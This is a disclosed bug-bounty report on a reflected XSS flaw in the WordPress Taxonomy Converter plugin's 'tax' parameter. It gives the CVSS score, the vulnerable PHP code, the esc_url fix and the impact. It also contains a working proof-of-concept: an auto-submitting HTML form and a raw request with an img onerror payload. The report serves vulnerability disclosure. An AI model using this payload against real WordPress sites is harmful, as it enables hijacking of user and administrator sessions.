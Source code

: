 # Reflected XSS: Taxonomy Converter via tax parameter

## Report Details
- **Report ID**: 495515
- **URL**: https://hackerone.com/reports/495515
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-02-13T20:02:37.577Z
- **Disclosed**: 2019-08-28T15:33:16.538Z

## Reporter
- **Username**: foobar7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
CVSS
----

Medium 6.1 [CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N)

Description
-----------

The [Taxonomy Converter](https://wordpress.org/plugins/taxonomy-converter/) that is listed on the [Official WordPress plugins](https://profiles.wordpress.org/wordpressdotorg/#content-plugins) page is vulnerable to reflected XSS as it echoes the `tax` parameter without encoding. 

POC
----

    <html>
      <body>
        <form action="http://192.168.0.104/wordpress5/wordpress/wp-admin/admin.php?import=wptaxconvert&tax=categoryx'&quot;><img+src%3dx+onerror%3dalert(1)>&step=2" method="POST" enctype="text/plain">
          <input type="hidden" name="test" value="test&#13;&#10;" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          document.forms[0].submit();
        </script>
      </body>
    </html>

Request
--------

    POST /wordpress5/wordpress/wp-admin/admin.php?import=wptaxconvert&tax=categoryx'"><img+src%3dx+onerror%3dalert(1)>&step=2 HTTP/1.1
    Host: 192.168.0.104
    [...]

    test=test

    HTTP/1.1 200 OK
    [...]

	<p>Uh, oh. Something didn&#8217;t work. Please <a href="admin.php?import=wptaxconvert&amp;tax=categoryx\'\"><img src=x onerror=alert(1)>">try again</a>.</p>

Code
----

    /wp-content/plugins/taxonomy-converter/taxonomy-converter.php

	function process($tax) {
		global $wpdb;

		if ( (!isset($_POST['terms_to_convert']) || !is_array($_POST['terms_to_convert'])) && empty($this->terms_to_convert) || (!isset($_POST['taxes'])) ) { ?>
			<div class="narrow">
			<p><?php printf(__('Uh, oh. Something didn&#8217;t work. Please <a href="%s">try again</a>.', 'wptaxconvert'), 'admin.php?import=wptaxconvert&amp;tax='.$tax); ?></p>
			</div>
    <?php		return;
		}

Solution
--------

Apply `esc_url` or similar to `$tax` before passing it to `printf`.

## Impact

With a successful attack, an attacker can access all data the attacked user has access to, as well as perform arbitrary requests in the name of the attacked user.

If the attacked user is an administrator, the attacker could for example create a new admin user and thus gain full control of the application (and depending on the settings, the server).

## Attachments
No attachments
